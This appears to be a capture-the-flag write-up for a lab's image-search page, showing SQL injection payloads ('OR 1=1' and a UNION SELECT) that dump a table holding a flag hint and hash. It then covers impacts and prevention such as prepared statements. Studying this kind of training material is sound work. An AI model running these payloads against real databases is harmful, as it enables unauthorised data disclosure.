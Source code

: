 # PIGGYBACK SQL INJECTION 2

## Explanation

On the image search page, there's an input field.

- OR 1=1 allows us to get all table entries.
  - => This table is vulnerable to UNION/piggyback injections.

### 1. Getting DB information

We already have retrieved the whole database from *PIGGYBACK SQL INJECTION 1*

- SCHEMA: Member_images
- TABLE : list_images
- COLUMNS :
  - id
  - url
  - title
  - comment

- 1 UNION SELECT url, comment FROM Member_images.list_images 
  - Comment : `If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46`

## Exploitation

**This vulnerability ranks number 1 in OWASP's top 10 Web Application Security Risk**

Different types of SQL injections allow the attacker to perform various things.
> - Data loss
> - Data corruption
> - Disclosure of information
> - Denial of access
> - Sometimes complete takeover of the system

## Prevention

> - Use an ORM
> - Escape characters (does not protect numeric fields)
> - Use Prepared statements => input won't be interpreted as SQL code anymore
> - Use LIMIT and other SQL controls within queries to prevent mass disclosure of records in case of SQL injection.

## Documentation

- [OWASP - TOP 10 - sql injection](https://owasp.org/www-project-top-ten/2017/A1_2017-Injection)
- [OWASP - sql injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [portswigger - UNION attacks](https://portswigger.net/web-security/sql-injection/union-attacks)